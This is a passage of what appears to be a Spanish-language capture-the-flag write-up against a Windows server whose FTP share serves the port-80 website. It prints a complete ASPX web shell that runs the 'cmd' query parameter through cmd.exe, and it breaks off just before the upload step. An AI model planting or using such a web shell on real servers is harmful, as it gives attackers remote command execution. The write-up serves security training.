 Probamos a entrar al `welcome.png` desde la web del puerto `80`, si hacemos esto veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que se nos esta cargando de forma correcta, por lo que el servidor de `FTP` esta alojando la pagina web que estamos viendo desde el puerto `80` por lo que nos vamos a crear un `webshell` de extension `.aspx` ya que es un `Windows Server`.

> webshell.aspx

```aspx
<%@ Page Language="C#" Debug="true" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
    protected void Page_Load(object sender, EventArgs e)
    {
        string cmd = Request.QueryString["cmd"];
        if (!string.IsNullOrEmpty(cmd))
        {
            Process process = new Process();
            process.StartInfo.FileName = "cmd.exe";
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.UseShellExecute = false;
            process.StartInfo.RedirectStandardOutput = true;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            Response.Write("<pre>" + output + "</pre>");
        }
    }
</script>
```

Ahora subiremos esta pagina desde el `FTP` haciendo lo siguiente:
